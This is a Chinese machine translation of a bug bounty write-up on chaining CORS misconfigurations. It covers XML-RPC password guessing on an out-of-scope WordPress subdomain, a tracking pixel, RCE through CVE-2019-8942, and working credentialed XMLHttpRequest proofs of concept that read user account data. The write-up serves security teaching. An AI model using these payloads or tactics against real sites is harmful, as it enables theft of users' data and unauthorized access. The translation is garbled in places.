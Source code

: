 # 用一连串的错误打破了有限的范围(给每个骑手的提示 CORS)

> 原文：<https://infosecwriteups.com/broke-limited-scope-with-a-chain-of-bugs-ef734ac430f5?source=collection_archive---------0----------------------->

![](img/e1ad3522e404c4f71c99d717ae119979.png)

一天早上，我被邀请参加一个私人的臭虫奖励计划。总的来说，我在安全方面的经验都是基于这样的私人项目。这在一方面是好的，因为几乎没有人急于在其他人之前找到最危险的 bug。另一方面，这是一个糟糕的增长点。增长点肯定是有的，但是这种情况下的增速还是挺慢的。给我写信的人要了一个链接，指向我的 [HackerOne 账户](https://hackerone.com/krevetk0)。我分享了我个人资料的链接。但是我有点尴尬。那时我个人资料是零信誉(5 个月前)。其实不是。这有点消极，因为我曾经试图联系该公司，通知他们“功能损坏”，但当时我找不到比 HackerOne 更好的连接。我报告了一个问题。但是我得到了一个负面的信誉分数，仅仅因为这个问题与安全领域无关。而且从那以后我就没用过这个账号了。在那个时候，我决定用一切手段来解决这个问题。

它决定尝试在几个节目中为自己平反。两个程序都是私有的。但这并没有简化情况，因为在我之前，在信息安全领域有名气的人已经在那里发现了很多漏洞。

在第一个程序中，我有一个有限的范围等待着我(这是当只有某些领域和子域被允许测试)。

![](img/1ebdca0b341bf4b2e50156dd2f69a952.png)

这种顺序总是让我有点吃惊。如果你的公司被发现通过主范围之外的子域泄露数据，你仍然不能逃脱 GDPR 或 CCPA 的罚款。当然，这都是来自经济领域。但在我看来，限制范围就是制造额外的风险。

当我开始在一个主要领域寻找漏洞的冒险时，我想到了一个有趣的惊喜。在向服务器发出几次请求后，我发现一个配置非常奇怪的 CORS 策略。

关于起源:attacker.companyname.com 请求。
我得到了答案*.companyname.com 和额外的头 Access-Control-Allow-Credentials:true

![](img/b3ea6b581f89a1942c6c6f9814a807a7.png)

在我的例子中，有子域通配符。考虑到子域不是漏洞搜索程序的一部分，这是不是有点奇怪？在这种情况下，我决定向公司证明该计划的局限性有点奇怪。所以我开始搜索能够让我执行黑客攻击(攻击场景)的子域。

从攻击者的角度来看，我的 CORS 配置可能是危险的，如果我找到一种方法来进行子域接管或通过 XSS 向量实施攻击。

试图找到一个子域接管有效的错误失败了，我决定挖掘任何子域上的 XSS。我的注意力被一个 WordPress 网站列表吸引住了。大多数都被遗弃了。最后一篇文章是几年前写的。很明显，各版本都存在所有最新的严重漏洞。我试图利用其中的一些，但这些尝试都不成功。大多数人认为 WordPress 至少有最低限度的用户权限。在这一点上，我想向 NordVPN 项目的所有者问好，他们接受来自[扫描仪的](https://hackerone.com/reports/752073)[报告](https://hackerone.com/reports/751876)，而没有真实的剥削例子。🤦

然后，我决定通过 XML-RPC 强行获取凭证。对了，可用的 XML-RPC 也是被低估的漏洞之一。

几分钟后，我用用户名和密码为我的攻击收集了一个简单的字典。确定用户并不困难。这本词典包含关键词——公司名称、城市、公司成立年份等等。几分钟后，我进入了一个 WordPress，出于某种原因，那里有一个密码为“公司名称”的用户。而用户本人，从 Linkedin 来看，并没有在这家公司工作很长时间。

![](img/2073b7539f0cad9b89ac275c652912ef.png)

主域上可供利用的漏洞链开始慢慢发展。接下来的几天，我继续慢慢琢磨这是什么版本的引擎。用什么样的主题。安装了什么样的插件？但是在我研究的第一天，我做了一件重要的事情。我通过创建一个新的空白出版物来跟踪网站上可能的活动，从而嵌入了跟踪像素( [IP logger](https://iplogger.ru/) )。这对我帮助很大！！！

以下代码用于攻击主域。

```
<script>
function cors() {  
var xhttp = new XMLHttpRequest();  
xhttp.onreadystatechange = function() {    
    if (this.status == 200) {    
    console.log('Ololo >>>', this.responseText);         
    }  
};  
xhttp.open("GET", "https://www.example.com/v/account/welcome/show", true);  
xhttp.withCredentials = true;  
xhttp.send();
}
cors();
</script>
```

我把它放在一个有编辑权限的受控 WordPress 站点的主页上。事实上，这是我针对用户的展示攻击场景的最终计划。用户只需打开我的 mywordpress.example.com，他的所有重要数据都可能被攻击者捕获。这意味着他从主域的活动登录会话登录到了我的子域，能够读取用户的所有敏感信息。

有了这些结果，你可以写一份报告，得到哈克龙的声誉积分，甚至一些钱。但是我不能放弃这样的想法，即受控的 Wordpress 可能有其他的东西。在多花了一点时间后，我有了 PoC，拥有用户权限的用户可以在服务器上执行命令(RCE)。在我的情况下，我使用的已知漏洞[CVE-2019-8942](https://pentest-tools.com/blog/wordpress-remote-code-execution-exploit-CVE-2019-8942)。

最后，我能够通过一个松散配置的 CORS 策略构建一个攻击用户的漏洞链。另外，我能够在其中一个子域上制作一个 RCE。我记录了两份不同的报告，然后开始等待。关于 CORS 的报道很快就被拆封了。他们能够足够快地复制它并开始修复它。但是关于 RCE 的报告开放了 15 天。但是在这里，跟踪像素 IPLogger 帮助了我。

![](img/0137c2ee74605c90fc2666204fa414ce.png)

几天后，我在捕获的 Wordpress 上发现了一些活动。又过了一天，网站不可用。关于 CORS 的主要报告被标记为固定和封闭的，但是 WordPress 子域名上的 RCE 仍然开放。这让我非常生气，我通过沟通渠道来解决问题。在我的电子邮件中，我提供了公司员工如何进入被捕获的网站、在那里执行一些操作并最终关闭网站的事实。第二天，我没有收到该公司的任何回复，但我收到了哈克龙的两封电子邮件，通知我两份报告都已关闭，而且都已付款。当然，我很高兴看到这种情况继续下去。毕竟，我的主要目标是获得一些声誉分数，每个人都很喜欢看这些分数。

同样在现实生活中，我遇到了 CORS 的误解，即在没有右侧限制和参考者检查的情况下，域中存在信任。
这个问题是在另一个私人程序中发现的。为了遵守隐私政策，我们把这个网站命名为**trustcasino.com**。
在与该站点交互过程中，检测到以下情况—如果我们发送了带有以下标题的请求:

```
Origin: https://www.trustcasino.com.anydomain.com
Referer: https://anydomain.com
```

回应是

```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://www.trustcasino.com.anydomain.com
Access-Control-Allow-Methods: POST, GET
```

由于 CORS 政策中的此类错误，有可能从 trustcasino.com 的授权用户处接收数据。
您需要做的就是创建以下地址[https://www.trustcasino.com.anydomain.com/pidor.html](https://www.trustcasino.com.anydomain.com/pidor.html)并吸引用户。pidor.html 文件本身应该包含以下代码。

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("GET", "https:\/\/www.trustcasino.com\/myaccount\/deposit.json", true);
        xhr.withCredentials = true;
        var body = "";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i);
    xhr.onreadystatechange = function() {
            if (xhr.readyState === 4) {
            alert(xhr.response);
            }
    } 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>
```

当用户点击攻击者的页面(trust casino . com . any domain . com/pidor . html)时，有关 trustcasino.com 用户帐户的所有信息都会传输到攻击者域。

有这样的请求还有另一个 CORS 配置错误:

```
GET /alltransactions
Host: docs.bigbank.com
Origin: null
```

我们将收到:

```
HTTP/1.1 200 OK
Acess-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

据我所知，这种攻击的概念验证应该是这样的:

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" 
src='data:text/html,<script>*cors stuff here*</script>’>
</iframe>
```

总之，在 CORS 的配置策略中，有一些东西可以帮助攻击者:子域通配符，前域通配符，后域通配符，空起源。

PS:点击👏“拍手”图标，如果你喜欢这篇文章😉

# 参考

[https://www . we45 . com/blog/3-ways-to-exploit-misconfigured-cross-origin-resource-sharing-CORS](https://www.we45.com/blog/3-ways-to-exploit-misconfigured-cross-origin-resource-sharing-cors)
https://ports wigger . net/blog/exploining-CORS-misconfiguration-for-bit coins-and-boundants
[https://habr.com/ru/company/pentestit/blog/337146/](https://habr.com/ru/company/pentestit/blog/337146/)
[https://medium . com/pare ture/simple-local-CORS-test-tool-544 f 108311 C5](https://medium.com/pareture/simple-local-cors-test-tool-544f108311c5)

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)